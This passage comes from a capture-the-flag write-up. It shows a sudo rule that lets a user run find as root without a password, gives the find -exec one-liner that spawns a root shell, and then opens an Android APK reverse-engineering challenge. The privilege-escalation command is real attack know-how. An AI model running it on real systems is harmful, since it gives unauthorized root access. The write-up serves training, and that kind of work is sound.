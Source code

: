   the output show 

  ```shell
  User akctf25user may run the following commands on akctf25-b2r:
    (ALL) NOPASSWD: /usr/bin/find
  ```
## ✅ This means:
The user akctf25user can run the find command as root using sudo, without needing a password.

## 🔓 How to escalate to root:
You can exploit this with the -exec option in find, which allows you to execute a command and since you're allowed to run find as root, the command it runs will also be root. Run this

```shell
sudo /usr/bin/find . -exec /bin/bash \;
```
This will drop you into a root shell.Then confirm using command `whoami`.

 ![vm](assets/writeups/AKCTF/vm9.png)

 Next go to root priveleges to get to second flag

 ![vm](assets/writeups/AKCTF/vm10.png)

 ## 🔍 Reverse Engineering

### 🔧 Challenge Name: *HideNSeekWithMe*

**Description:**  
Our team intercepted this suspicious Android APK. Rumor says it hides a secret password and a flag. Can you reverse it to find the correct password and reveal the flag?

**Approach:** 
First decompile the file using jadx-gui because the file is .apk

